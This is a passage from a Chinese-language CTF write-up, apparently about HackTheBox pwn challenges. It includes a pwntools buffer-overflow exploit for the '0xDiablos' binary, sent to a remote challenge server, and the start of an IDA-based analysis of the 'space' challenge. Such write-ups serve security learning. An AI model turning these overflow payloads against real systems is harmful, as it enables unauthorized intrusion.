    flag = (bytes(return_strings).strip()).rsplit(b"-")
    print(flag)
    true_flag = b""
    for i in range(11,len(flag)):
        if len(flag[i])%2:
            flag[i] = b'0'+flag[i]
        #print(a2b_hex(flag[i])[::-1])
        true_flag += a2b_hex(flag[i])[::-1]
        if b"}" in true_flag:
            break
    print(true_flag)

## You know 0xDiablos<br>
太简单了以至于不想说乍做.....<br>

    from pwn import *

    io = remote("167.172.60.97",31012)
    #io = process("./vuln")
    #80491E2
    io.recvuntil("You know who are 0xDiablos:")
    payload = b'a'*188 + p32(0x80491E2)+p32(0xDEADBEEF)+p32(0xDEADBEEF)+p32(0xC0DED00D)

    #gdb.attach(io)
    io.sendline(payload)

    io.interactive()


## space <br>
这道题很有意思

### 1.简单分析

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/1.png)

可以看出是一个32位的程序

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/2.png)

什么保护也没加

运行一下看看

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/3.png)

行吧，直接用IDA进行分析

### 2.IDA分析

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/4.png)

可以看到，往buf里面读31个字节后进入vuln函数
